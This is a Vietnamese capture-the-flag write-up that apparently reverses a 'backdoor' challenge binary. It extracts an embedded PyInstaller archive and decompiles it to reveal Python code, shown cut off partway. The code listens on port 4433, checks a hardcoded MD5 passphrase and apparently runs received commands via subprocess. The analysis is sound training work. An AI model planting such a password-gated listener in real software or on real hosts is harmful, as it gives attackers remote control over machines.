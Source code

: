 * Sau khi thử chạy file thì không có gì xảy ra
* Mình đã tìm kiếm thông tin của file này và phát hiện đây là chương trình này đang chạy python file `pyc`
* Mục tiêu là lấy được file `pyc`. Bắt đầu với `objcopy`

```
┌──(kali㉿kali)-[~/Desktop/ReverseHTB/backdoor]
└─$ objcopy --dump-section pydata=pydata.dump bd
                                                                                                                         
┌──(kali㉿kali)-[~/Desktop/ReverseHTB/backdoor]
└─$ ls    
bd  pydata.dump
```
* Ta đã có được file dump extracted data, tiếp theo mình dùng [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor.git) để extract file dump này

```
┌──(kali㉿kali)-[~/Desktop/ReverseHTB/backdoor]
└─$ python pyinstxtractor/pyinstxtractor.py pydata.dump 
[+] Processing pydata.dump
[+] Pyinstaller version: 2.1+
[+] Python version: 38
[+] Length of package: 6994886 bytes
[+] Found 45 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: bd.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python38 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: pydata.dump

You can now use a python decompiler on the pyc files within the extracted directory
                                                                                                                         
```
* Vậy chúng ta đã có được file `bd.pyc`. Tiếp theo ta cần decompile file bd.pyc

```
┌──(kali㉿kali)-[~/Desktop/ReverseHTB/backdoor]
└─$ decompyle3 pydata.dump_extracted/bd.pyc   
# decompyle3 version 3.3.2
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
# [GCC 10.2.0]
# Embedded file name: bd.py
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    while True:
        client, addr = sock.accept()
        data = client.recv(32)
        if len(data) != 32:
            client.close()

		if data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
			client.send(b'Invalid')
			client.close()
		else:
			size = client.recv(1)
```